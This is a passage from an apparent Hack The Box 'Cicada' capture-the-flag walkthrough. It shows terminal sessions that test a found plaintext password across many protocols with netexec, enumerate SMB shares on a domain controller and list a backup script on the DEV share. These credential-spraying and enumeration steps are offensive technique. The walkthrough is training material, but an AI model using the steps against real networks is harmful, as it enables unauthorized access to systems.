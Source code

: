 ```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ for protocol in winrm rdp mssql ldap vnc smb ssh wmi nfs ftp; do netexec $protocol $ip -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'; done
WINRM       10.129.231.149  5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.231.149  5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.231.149  389    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
/usr/lib/python3/dist-packages/paramiko/pkey.py:100: CryptographyDeprecationWarning: TripleDES has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.TripleDES and will be removed from this module in 48.0.0.
  "cipher": algorithms.TripleDES,
/usr/lib/python3/dist-packages/paramiko/transport.py:259: CryptographyDeprecationWarning: TripleDES has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.TripleDES and will be removed from this module in 48.0.0.
  "class": algorithms.TripleDES,
RPC         10.129.231.149  135    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC         10.129.231.149  135    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

```
Since we got some valid credentials we should check if this user has other permissions on the SMB share.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ netexec smb $ip -u 'cicada.htb\david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.231.149  445    CICADA-DC        [*] Enumerated shares
SMB         10.129.231.149  445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.231.149  445    CICADA-DC        -----           -----------     ------
SMB         10.129.231.149  445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.231.149  445    CICADA-DC        C$                              Default share
SMB         10.129.231.149  445    CICADA-DC        DEV             READ            
SMB         10.129.231.149  445    CICADA-DC        HR              READ            
SMB         10.129.231.149  445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.231.149  445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.231.149  445    CICADA-DC        SYSVOL          READ            Logon server share 

```
This user has permissions to read the DEV share. This might be interesting, so we should check this share and see if we can find some juicy information.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ smbclient //$ip/DEV -U 'cicada.htb\david.orelious'                    
Password for [CICADA.HTB\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

                4168447 blocks of size 4096. 476620 blocks available
```